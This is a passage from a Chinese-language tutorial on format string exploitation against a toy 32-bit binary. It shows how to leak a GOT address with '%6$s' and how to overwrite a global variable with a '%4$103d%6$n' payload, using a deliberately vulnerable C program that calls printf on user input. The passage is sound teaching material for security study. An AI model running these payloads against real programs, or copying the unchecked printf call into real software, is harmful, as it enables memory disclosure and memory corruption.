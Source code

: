 ```shell
$ python -c 'print("\x18\xA0\x04\x08" + ".%6$s")' > text
$ ./a.out < text > out
```

输出的数据如下：

```text
$ python -c 'print repr(raw_input())' < out
'\x18\xa0\x04\x08.\xc0\xd0\xe5\xf7'
```

嗯，<__isoc99_scanf\@plt> 地址就是 0xf7e5d0c0。

好，泄漏方法我们知道了，现在说点需要注意的：不是每次我们都运气这么好，偏移正好是机器字长的整倍数，所以有些时候我们需要再 \<addr> 前面加上 \<padding>，至于加多少视情况自己定。还有就是别只是能泄漏 GOT，而是可以泄漏 __任意地址__ 内存，比如用来将进程直接给 dump 出来。

### 覆盖任意地址内存

这里就用到前面格式化占位符中说到的 %n 来实现覆盖这个功能，另外还要用 [field width] 来保证修改的值，用 n$ 来保证修改的变量的位置。

我们先稍微修改一下程序：

```c
// gcc -m32 vuln.c
#include <stdio.h>

int flag = 0x77;

int main()
{
    char str[20];
    scanf("%s", str);
    printf(str);
    if (flag == 0x6b)
        puts("Success!");

    return 0;
}
```

我们的格式化字符串 \<addr>……%n$n，是不是和泄漏任意地址内存中用到的很像，其实也就是把读改成写，然后因为 %n 是填入变量的是正确输出字符数个数，所以在 %n 之前输出相应个数个字符。

现在我们先要知道要修改的内存的地址是多少，这里我们目标地址为 0x804a028。

```text
$ objdump -s -j .data a.out

a.out:     file format elf32-i386

Contents of section .data:
 804a020 00000000 00000000 77000000           ........w...
```

获取偏移的方法看泄漏任意地址内存中讲的。那么现在我们的格式化字符串是 `\x28\xa0\x04\x08%4$103d%6$n`。

大致说一下格式化字符串的结构把，前4个字节是目标地址没问题。中间 `%4$103d` 就是输出103个字符，4$ 是我随便找的一个变量，103 是因为前面我们已经输出4个字符了，0x6b-0x04 = 107-4 = 103。最后 %6$n 写明目标地址。
